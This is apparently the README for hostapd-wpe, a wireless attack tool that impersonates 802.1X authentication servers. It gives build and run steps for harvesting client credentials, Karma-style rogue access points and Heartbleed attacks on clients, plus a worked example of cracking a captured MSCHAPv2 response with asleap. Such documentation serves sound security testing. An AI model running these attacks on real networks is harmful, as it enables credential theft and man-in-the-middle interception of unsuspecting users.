 # About

hostapd-wpe is the replacement for FreeRADIUS-WPE 
(http://www.willhackforsushi.com/?page_id=37).

It implements IEEE 802.1x Authenticator and Authentication Server impersonation attacks to obtain client credentials, establish connectivity to the client, and launch other attacks where applicable. 

hostapd-wpe supports the following EAP types for impersonation:
    1. EAP-FAST/MSCHAPv2 (Phase 0)
    2. PEAP/MSCHAPv2
    3. EAP-TTLS/MSCHAPv2
    4. EAP-TTLS/MSCHAP
    5. EAP-TTLS/CHAP
    6. EAP-TTLS/PAP

Once impersonation is underway, hostapd-wpe will return an EAP-Success message so that the client believes they are connected to their legitimate authenticator.

For 802.11 clients, hostapd-wpe also implements Karma-style gratuitous probe responses. Inspiration for this was provided by JoMo-Kun's patch for older versions of hostapd.

        http://www.foofus.net/?page_id=115

hostapd-wpe also implements CVE-2014-0160 (Heartbleed) attacks against vulnerable clients. Inspiration for this was provided by the Cupid PoC:

        https://github.com/lgrangeia/cupid

hostapd-wpe logs all data to stdout and hostapd-wpe.log

# Quick Usage
Once hostapd-wpe.patch is applied, hostapd-wpe.conf will be created at /path/to/build/hostapd/hostapd-wpe.conf. See that file for more  information. Note that /path/to/build/hostapd/hostapd-wpe.eap_users will also be created, and hostapd-wpe is dependent on it. 

Basic usage is:

```
hostapd-wpe hostapd-wpe.conf 
```

Credentials will be displayed on the screen and stored in hostapd-wpe.log

Additional WPE command line options are:

```
-s  Return EAP-Success messages after credentials are harvested
-k  Gratuitous probe responses (Karma mode) 
-c  Attempt to exploit CVE-2014-0160 (Cupid mode)
```

# Building

## Dependencies

- pkg-config
- libssl
- libnl3 (and genl)
- sqlite3

## Debian-based distro

```
apt-get install libssl-dev libnl-genl-3-dev libnl-3-dev pkg-config
``` 

## General

```
git clone https://github.com/aircrack-ng/hostapd-wpe
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
patch -p1 < ../hostapd-wpe/hostapd-wpe.patch 
cd hostapd
```

Then:

```
make
make install
make wpe
```

# Creating certs

```
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```

# Running

With all of that complete, you can run hostapd. The patch will create a new hostapd-wpe.conf, which you'll likely need to modify in order to make it work for your attack. Once ready just run

```
hostapd /etc/hostapd-wpe/hostapd-wpe.conf
```

Look in the output for the username/challenge/response. It'll be there and in a hostapd-wpe.log file in the directory you ran hostapd from for instance here are the EAP-FAST Phase 0 creds from stdout:

```
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

and as always, we feed them into asleap to crack:

```
# asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist 
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

Alternatively MSCHAPv2 credentials are outputted in john the rippers NETNTLM format. 

## Troubleshooting

### OpenSSL: tls_global_ca_cert - Failed to load root certificates error:02001002:system library:fopen:No such file or directory

Certificates are not created. Follow the procedure above to create them

### nl80211 driver initialization failed.

One of the possible reasons is that other processes are using the interface. Running ```airmon-ng check kill``` fixes the issue (it will kill any network manager and network connection).

# EAP-Success

Certain EAP types do not require the server to authenticate itself, just to validate the client's submitted credentials. Since we're playing the authentication server, that means we can easily just return an EAP-Success message to the client regardless of what they send us. The client is happy because they've connected, but unfortunately are unaware that they are connected to an unapproved authenticator. 

At this point, the attacker can set up a dhcp server and give the client an IP and then do whatever they'd like (e.g. redirect dns, launch attacks, MiTM, etc..)

MSCHAPv2 protects against this by having the server prove knowledge of the password most supplicants adhere to this policy, but we return EAP-Success just in case. 

# Karma-Style Probes

This functionality simply waits for an client to send a directed probe, when it does, it assumes that SSID and responds to the client. Only applicable to 802.11 clients.

# A note on MSCHAPv2

Microsoft offers something called "Computer Based Authentication". When a computer joins a domain it is assigned a password. This password is stored on the system and in active directory. We can harvest the MSCHAPv2 response from these systems but its going to take a lifetime to crack. Unless you're just trying to solve for the hash, and not the actual password :)

One other thing to note, if the client returns all zeros, it isnt joined to a domain. 

# Testing Heartbleed

If you're running Ubuntu and want to test Heartbleed you'll need to downgrade to a vulnerable version of OpenSSL. That can be done by:

```
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/openssl_1.0.1-4ubuntu5.11_i386.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl-dev_1.0.1-4ubuntu5.11_i386.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl-doc_1.0.1-4ubuntu5.11_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb
sudo dpkg -i libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb 
sudo dpkg --install libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb \
libssl-dev_1.0.1-4ubuntu5.11_i386.deb \
libssl-doc_1.0.1-4ubuntu5.11_all.deb \
openssl_1.0.1-4ubuntu5.11_i386.deb
```

Then use wpa_supplicant to connect to hostapd-wpe -c 
